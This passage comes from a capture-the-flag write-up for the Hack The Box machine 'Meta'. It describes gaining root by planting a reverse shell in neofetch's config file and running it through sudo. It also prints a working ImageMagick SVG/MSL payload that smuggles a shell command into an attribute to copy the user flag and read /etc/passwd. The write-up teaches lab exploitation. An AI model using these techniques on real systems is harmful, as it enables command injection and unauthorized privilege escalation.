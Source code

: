 However, we also realize that /usr/bin/neofetch runs with root permissions only when the command ```/usr/bin/neofetch \"\"``` is executed. All other commands of neofetch are not executed with root permissions. As a result, we are unable to use the permission escalation methods stated in GTFOBins from [here](https://gtfobins.github.io/gtfobins/neofetch/)

Navigating to /home/thomas/.config, we realize that there is a config file for neofetch. Let us try to modify the config file for neofetch in /home/thomas/.config/neofetch/config.conf to achieve privilege escalation.

To do that, we will first have to add a reverse shell payload to /home/thomas/.config/neofetch/config.conf. However, for this payload we will have to add it to the print_info() function in the config file so that the reverse shell payload will be called when we execute the /usr/bin/neofetch command.

![Reverse shell for neofetch](https://github.com/joelczk/writeups/blob/main/HTB/Images/Meta/reverse_shell_neofetch.png)

Upon executing ```sudo /usr/bin/neofetch \"\"```, we will then obtain a reverse shell

```
root@meta:/home/thomas/.config/neofetch# id
id
uid=0(root) gid=0(root) groups=0(root)
```

### Obtaining root flag
```
root@meta:/home/thomas/.config/neofetch# cat /root/root.txt
cat /root/root.txt
<Redacted root flag>
```
## Post-Exploitation
### Using ImageMagick to write user flag to file
Another way that we can obtain the user flag is to modify the poc.svg payload such that it writes the user flag to a file in the /dev/shm directory. Since we are will be running the script with the permissions of Thomas, we will be able to write the user flag to a file

```
<image authenticate='ff" `cat /home/thomas/user.txt> /dev/shm/user_flag`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```
